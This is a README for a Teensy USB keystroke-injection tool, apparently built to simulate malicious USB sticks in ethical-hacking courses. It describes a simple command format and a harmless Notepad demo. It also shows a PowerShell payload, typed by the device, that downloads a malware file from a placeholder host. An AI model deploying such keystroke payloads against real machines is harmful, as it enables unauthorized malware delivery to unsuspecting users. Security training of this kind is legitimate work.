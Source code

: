 # teensy
Tools and projects all around the Teensy USB Development Board

## teensy_keyboard

Based on the Keyboard-Library and example from the Teensy Homepage:
https://www.pjrc.com/teensy/index.html

This program allows you to define a very simple string which is parsed and
sent as Keystrokes to the Computer after the Teensy gets pluged in.

I created this to simulate Malicious USB-Sticks in Ethical-Hackin courses
and presentations withing [ThinkArena](http://www.denkarena.ch/)

### Commands and Format

The String can be of Keystrokes, Strings and Pause:
* The `K:` is used to simulate a KeyStroke with a modifier key
* The `S:` is used to write a string
* The `W:` is used to wait the given amount of milliseconds before the next line is processed
* The `E` is used to send a ESC Keystroke
* The `R` is used to send the RETURN/ENTER key

**Example**

Open Notepad and write something:
```
K: WIN R
W: 50
S: notepad
W: 200
S: You've just inserted a malicious USB-Stick.
R
S: Always take care about what you're connection
R
S: Cheers...
R
```

### Downlaod in Windows

Under Windows you can use something like this on Windows to download Maleware in a Powershell:

```Batchfile
$client = New-Object System.Net.WebClient
$client.DownloadFile("http://www.example.com/file.exe", "C:\")
```

This would result in a String like this:
```
K: WIN R
W: 50
S: powershell
R
S: $client = New-Object System.Net.WebClient
R
S: $client.DownloadFile("http://www.example.com/file.exe", "C:\")
```

